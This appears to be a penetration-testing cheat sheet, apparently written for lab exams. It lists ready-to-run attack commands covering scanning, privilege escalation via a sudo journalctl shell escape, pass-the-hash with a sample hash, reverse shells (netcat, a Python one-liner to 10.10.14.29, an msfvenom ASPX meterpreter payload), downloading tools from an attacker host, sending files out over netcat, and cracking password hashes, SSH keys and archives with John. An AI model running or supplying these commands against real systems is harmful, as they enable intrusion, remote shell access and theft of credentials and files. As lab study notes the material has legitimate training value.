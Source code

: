 # RECON
## Initial Nmap Scan
```bash
ip="10.10.10.5"
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki  
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e  

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt  
URL to fuzz (find file in unknown folder)  
/{dir}/phpbash.min.php  

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```
## FTP
```bash
nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $ip
```


# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## Metasploit Local Exploit Suggester
```bash
meterpreter > cd %TEMP%
meterpreter > pwd
C:\Windows\TEMP
meterpreter > background
use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run
```

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
## ASPX Reverse Shell (Webserver)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lab_ip LPORT=1234 -f aspx > devel.aspx
```
# Password Cracking
## John
```bash
john --wordlist=/home/mallab/Downloads/rockyou.txt htpasswd.txt 
```

## SSH Private Key / id_rsa
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
sudo john --wordlist=rockyou.txt id_rsa.hash
```

## ZIP Archive
```bash
/usr/sbin/zip2john avedb.zip > avedb.zip.hashes
sudo john --wordlist=rockyou.txt avedb.zip.hashes
```

## KDBX Keepassa
```bash
sudo keepass2john jeeves.kdbx > jeeves.hash
```
